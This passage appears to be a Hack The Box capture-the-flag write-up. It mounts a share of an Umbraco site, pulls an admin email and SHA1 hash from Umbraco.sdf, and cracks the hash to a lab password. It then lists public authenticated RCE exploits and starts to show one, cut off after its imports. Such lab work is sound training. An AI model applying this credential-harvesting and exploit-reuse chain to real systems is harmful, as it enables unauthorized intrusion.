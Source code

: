 ```bash
$ cd /mnt remote     
┌──(kali㉿kali)-[/mnt/remote]
└─$ ls
App_Browsers  aspnet_client  css           Media    Umbraco_Client
App_Data      bin            default.aspx  scripts  Views
App_Plugins   Config         Global.asax   Umbraco  Web.config
```

- found `sdf` (database file) file in `App_data`
```bash
┌──(kali㉿kali)-[/mnt/remote/App_Data]
└─$ ls
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```
- on examing found that it is a binary file
- using `strings` and `grep` for `password`

![sdf_file](images/sdf_file.PNG)

- found `email/username` -  `admin@htb.local`
- on `grep` of found email, found `sha1` hash of that user
![password](images/password.PNG) 

- on cracking hash resulted into `baconandcheese`

- then login.
- Searchsploit resulted in `authenticated RCE`


```bash
$ searchsploit Umbraco     
------------------------------------------------------------ ---------------------------------
 Exploit Title                                              |  Path
------------------------------------------------------------ ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)         | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution  | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)  | aspx/webapps/49488.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting  | php/webapps/44988.txt
------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
                       

```
- modified exploit to `ping` host machine from victim machine

```bash
$ cat 46153.py              
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators
# Dork: N/A
# Date: 2019-01-13
# Exploit Author: Gregory DRAPERI & Hugo BOUTINON
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# CVE: N/A


import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());
    
```